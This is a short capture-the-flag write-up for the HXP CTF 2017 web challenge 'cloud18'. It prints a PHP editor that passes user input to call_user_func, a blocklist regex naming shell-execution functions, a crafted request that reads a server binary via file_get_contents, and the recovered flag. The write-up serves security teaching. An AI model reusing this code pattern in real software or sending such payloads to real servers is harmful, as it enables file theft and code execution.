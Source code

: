 ```yaml
---
title: HXP CTF 2017 - cloud18
date: '2017-11-19'
lastmod: '2019-04-07T13:46:27+02:00'
categories:
- ctf_hxp2017
- writeup
- hxp2017
tags:
- web
authors:
- chq-matteo
---
```


We can:
- login
- register a new user

Once we are authenticated, we can use a text editor.

We take choose a function, write a regex, write some text and have the text that matches the regex replaced with the output of our functions. (line 35-37)
```php
    $editedText = preg_replace_callback("/" . $_POST["regex"] . "/", function ($matches) {
        return call_user_func($_POST["method"], $matches[0]);
    }, $_POST["text"]);
```

The client provides a couple of examples (line 43-48)
```html
        <select name="method">
            <option value="" disabled selected>select a method</option>
            <option value="strtoupper">to upper case</option>
            <option value="strtolower">to lower case</option>
            <option value="ucfirst">first letter to upper case</option>
        </select>
```

However the method is only checked by this snippet (line 7-9)
```php
if (preg_match("/exec|system|passthru|`|proc_open|popen/", strtolower($_POST["method"].$_POST["text"])) != 0) {
    exit("Do you really think you could pass something to the command line? Functions like this are often disabled! Maybe have a look at the source?");
}
```

In index.php we notice that we have to execute /usr/bin/get_flag to get the flag
```php
		echo "<div class='alert success'>" . shell_exec("/usr/bin/get_flag") . "</div>";
```

However we cannot use shell_exec.
But we can download the whole binary
We craft a request that includes the file in the webpage and then download it.
```
method:file_get_contents
regex:\/usr\/bin\/get_flag
text:/usr/bin/get_flag
```

Now we should get some information reversing the binary.

Luckily the old `strings get_flag | grep hxp` worked
`hxp{Th1s_w2sn't_so_h4rd_now_do_web_of_ages!!!Sorry_f0r_f1rst_sh1tty_upload}`
